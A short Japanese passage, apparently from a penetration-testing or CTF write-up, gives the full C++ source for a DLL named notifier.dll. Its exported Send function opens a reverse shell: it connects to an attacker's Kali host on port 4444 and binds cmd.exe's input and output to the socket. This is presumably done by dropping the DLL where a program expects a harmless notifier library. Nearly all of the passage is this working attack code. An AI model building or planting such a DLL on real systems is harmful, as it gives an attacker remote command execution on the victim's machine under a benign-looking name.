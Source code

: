 例として、以下のようなリバースシェルを張るコードを`notifier.dll`をビルドします。

- notifier.h

```cpp
#pragma once

#include <string>

# ifdef VC_DLL_EXPORTS
# undef VC_DLL_EXPORTS
# define VC_DLL_EXPORTS extern "C" __declspec(dllexport)
# else
# define VC_DLL_EXPORTS extern "C" __declspec(dllimport)
# endif

VC_DLL_EXPORTS void __cdecl Send(const char* message);
```

- notifier.cpp

```cpp
#include "notifier.h"
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")

WSADATA wsaData;
SOCKET Winsock;
struct sockaddr_in hax; 
char ip_addr[16] = "<KaliのIP>"; 
char port[6] = "4444";            

STARTUPINFO ini_processo;

PROCESS_INFORMATION processo_info;

void _cdecl Send(const char* message)
{
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);


    struct hostent *host; 
    host = gethostbyname(ip_addr);
    strcpy_s(ip_addr, 16, inet_ntoa(*((struct in_addr *)host->h_addr)));

    hax.sin_family = AF_INET;
    hax.sin_port = htons(atoi(port));
    hax.sin_addr.s_addr = inet_addr(ip_addr);

    WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&ini_processo, 0, sizeof(ini_processo));
    ini_processo.cb = sizeof(ini_processo);
    ini_processo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; 
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    TCHAR cmd[255] = TEXT("cmd.exe");

    CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);
}
```
